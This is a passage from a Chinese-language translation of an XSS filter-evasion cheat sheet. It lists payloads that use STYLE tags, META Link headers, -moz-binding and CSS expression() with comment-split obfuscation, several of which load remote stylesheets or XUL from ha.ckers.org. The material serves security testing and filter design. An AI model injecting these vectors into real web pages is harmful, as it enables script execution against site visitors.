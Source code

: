 他的工作原理与上面相同。但是使用了 STYLE 标签代替 LINK 标签。榆次向量稍有不同的变异被用于攻击 Google Desktop。你可以移除</STYLE>标签当后面的 html 去闭合它。这个向量是有用的在不允许输入等号或是反斜杠的实际环境中。

```
<STYLE>@import'http://ha.ckers.org/xss.css';</STYLE> 
```

### 远程样式表 3

它仅仅可以工作在 Opera 8.0 (no longer in 9.x) ，但是是非常的狡猾。 Opera 8.0 (no longer in 9.x) 。根据 RFC2616 规定，设置一个连接头不是 HTTP1.1 规定的一部分，但是很多浏览器仍然允许它（例如 Firefox and Opera）。这个技巧是我们可以设置一个 http 头（与常规 http 头没有什么不同，只是 Link: [`ha.ckers.org/xss.css`](http://ha.ckers.org/xss.css); REL=stylesheet）。这样带有 xss 代码的远程向量将运行 javascript。他并不被支持在 FireFox。

```
<META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet"> 
```

### 远程样式表 4

它是仅仅工作在 Gecko 渲染引擎。并且需要绑定一个 XUL 文件在页面。令人讽刺的是 Netscape 认为 Gecko 是更加安全的，因此绝大多是网站会受到这个攻击。

```
<STYLE>BODY{-moz-binding:url("http://ha.ckers.org/xssmoz.xml#xss")}</STYLE> 
```

### 分隔 javascript 在 STYLE 标签

这个 xss 在 ie 浏览器中会造成无线循环

```
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE> 
```

### STYLE 属性中使用注释去分隔表达式

提出被 Roman Ivanov

```
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))"> 
```

### IMG 样式的表达式

这是上面 xss 向量的混合体。但是它是展示了 STYLE 标签被分隔有多困难。同样它也会在 ie 下造成循环弹窗。

```
exp/*<A STYLE='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'> 
```

### STYLE 标签（仅支持老版本的 Netscape）

```
<STYLE TYPE="text/javascript">alert('XSS');</STYLE> 
```

### 使用 background-image 的 style 标签
